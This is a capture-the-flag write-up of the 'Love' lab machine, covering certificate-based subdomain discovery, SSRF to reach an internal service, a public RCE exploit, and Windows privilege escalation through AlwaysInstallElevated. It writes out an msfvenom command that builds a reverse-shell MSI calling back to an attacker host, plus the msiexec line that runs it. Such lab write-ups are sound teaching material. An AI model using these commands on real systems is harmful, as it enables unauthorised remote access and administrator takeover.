 # Love

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (8) (7).png" alt=""><figcaption></figcaption></figure>

Lots of ports open.

### TLS Cert Checking

Port 80 reveals a voting system that requries credentials. Port 5000 was blocked off for whatever reason.

<figure><img src="../../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

A bit of enumeration on the type of service running reveals that it was an outdated software with loads of vulnerabilities:

<figure><img src="../../../.gitbook/assets/image (39) (1).png" alt=""><figcaption></figcaption></figure>

Checking the certificate on port 443 reveals a hidden sub-domain.

<figure><img src="../../../.gitbook/assets/image (8) (2) (4).png" alt=""><figcaption></figcaption></figure>

We can add this to the `/etc/hosts` file and view it.

### SSRF --> Authenticated RCE

The sub-domain found reveals this:

<figure><img src="../../../.gitbook/assets/image (20) (8) (1).png" alt=""><figcaption></figcaption></figure>

Signing up and viewing it would direct us to this page:

<figure><img src="../../../.gitbook/assets/image (36) (1).png" alt=""><figcaption></figcaption></figure>

I was able to get hits on a HTTP server hosted on my machine, but I could not download or execute anything. Since it was the server sending requests, I tried to enter `http://localhost:5000` and was returned this:

<figure><img src="../../../.gitbook/assets/image (6) (1) (3).png" alt=""><figcaption></figcaption></figure>

With credentials, we now get a shell using an RCE exploit that is publicly available. Just change the settings here:

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then run the exploit:

<figure><img src="../../../.gitbook/assets/image (42) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### AlwaysInstallElevated

When on the machine, I ran winPEAS to enumerate for me and found that `AlwaysInstallElevated` was set to 1.

<figure><img src="../../../.gitbook/assets/image (4) (4).png" alt=""><figcaption></figcaption></figure>

What this exploit allows us to do is execute commands as the Administrator user through `msiexec`. As such, we would first need to generate a quick reverse shell using `msfvenom`.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi -o rev.msi

# on target
msiexec /quiet /qn /i C:\directory\to\rev.msi
```

Afterwards, we would get a shell as the administrator:

<figure><img src="../../../.gitbook/assets/image (17) (7).png" alt=""><figcaption></figcaption></figure>
